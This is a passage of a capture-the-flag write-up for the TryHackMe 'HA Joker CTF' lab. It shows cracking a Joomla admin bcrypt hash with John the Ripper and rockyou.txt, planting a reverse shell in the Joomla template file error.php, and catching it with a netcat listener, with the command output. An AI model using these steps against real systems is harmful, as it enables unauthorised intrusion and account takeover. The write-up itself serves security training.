 `admin`

5.  Super Duper User! What is the password?

```
kali@kali:~/CTFs/tryhackme/HA Joker CTF$ john admin.hash /usr/share/wordlists/rockyou.txt --format=bcrypt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
abcd1234         (?)
1g 0:00:00:09 DONE 2/3 (2020-10-08 20:39) 0.1076g/s 79.44p/s 79.44c/s 79.44C/s yellow..allison
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~/CTFs/tryhackme/HA Joker CTF$
```

`abcd1234`

7.  At this point, you should be upload a reverse-shell in order to gain shell access. What is the owner of this session?

[http://10.10.252.64:8080/administrator/index.php?option=com_templates&view=template&id=503&file=L2Vycm9yLnBocA%3D%3D](http://10.10.252.64:8080/administrator/index.php?option=com_templates&view=template&id=503&file=L2Vycm9yLnBocA%3D%3D)

![](2020-10-08_20-43.png)

[http://10.10.252.64:8080/templates/beez3/error.php](http://10.10.252.64:8080/templates/beez3/error.php)

```
kali@kali:~/CTFs/tryhackme/HA Joker CTF$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.252.64] 43184
Linux ubuntu 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 11:46:07 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
/bin/sh: 0: can't access tty; job control turned off
$
```

`www-data`

8.  This user belongs to a group that differs on your own group, What is this group?

`lxd`

10. Spawn a tty shell.
